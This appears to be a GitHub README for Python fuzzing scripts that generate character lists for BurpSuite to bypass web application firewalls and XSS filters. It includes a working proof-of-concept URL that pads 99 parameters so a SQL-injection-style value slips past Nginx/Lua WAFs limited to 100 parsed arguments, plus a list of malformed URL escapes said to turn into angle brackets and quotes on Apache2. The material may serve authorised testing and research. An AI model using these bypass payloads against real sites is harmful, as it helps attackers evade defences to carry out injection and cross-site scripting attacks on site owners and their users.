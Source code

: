 # Bypassing-Web-Application-Firewalls-And-XSS-Filters
A series of python scripts for generating weird character combinations and lists for BurpSuite Pro for bypassing web application firewalls (WAF) and XSS filters.
These python scripts have been created to fuzz wierd combinations:

 * URL Escape Characters 
 * HTML Escape Characters
 * Binary Characters

*Update October 2018*
As detiled in the recently disclosed Cloudflare vulnerability, several Nginx/LUA based WAF implementations have a limitation where only 100 requests (GET/POST requests) can be processed before the WAF is no longer able to see them.

> “Nginx is a web server that is responsible for processing web requests. It is a stable and versatile tool that allows developers to focus on the implementation of WAF through different scripts written in LUA. Most of these open source WAF’s have the same problem: they don’t take into account that the module responsible for the integration of LUA in Nginx (lua-nginx-module) doesn’t allow access to all the information of a request.”

> ngx.req.get_uri_args()
some note from https://github.com/openresty/lua-nginx-module#ngxreqget_uri_args
“Note that a maximum of 100 request arguments are parsed by default (including those with the same name) and that additional request arguments are silently discarded to guard against potential denial of service attacks.”

Proof of concept 100 request parameters for WAF bypass exploit:
```
/test.php?&a0=0&a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a=information_schemas
```


References:
https://github.com/p0pr0ck5/lua-resty-waf/issues/280
https://latesthackingnews.com/2018/10/26/cloudflare-waf-bypass-vulnerability-discovered/


These scripts were created during an assessment, while trying to bypass a Web Application Firewall (WAF) in order to exploit a XSS vulnerability.
Differnt webservers and browsers interpret URL and strange characters differently which could lead to the bypassing of security controls.
When I tried to send a > or < character the WAF would block the request.

The following URL escapes I have noticed are traslated to < > ' by Apache2 based web servers:

%(N%(n%)S%)U%)^%)s%)u%*C%*E%*c%*e%,.%.#%1N%1n%2S%2U%2^%2s%2u%3C%3E%3c%3e%5.%7#%:C%:E
%:c%:e%HN%Hn%IS%IU%I^%Is%Iu%JC%JE%Jc%Je%L.%N#%XN%Xn%YS%YU%Y^%Ys%Yu%ZC%ZE%Zc%Ze%\.%^#
%hN%hn%iS%iU%i^%is%iu%jC%jE%jc%je%l.%n#%xN%xn%yS%yU%y^%ys%yu%zC%zE%zc%ze%|.


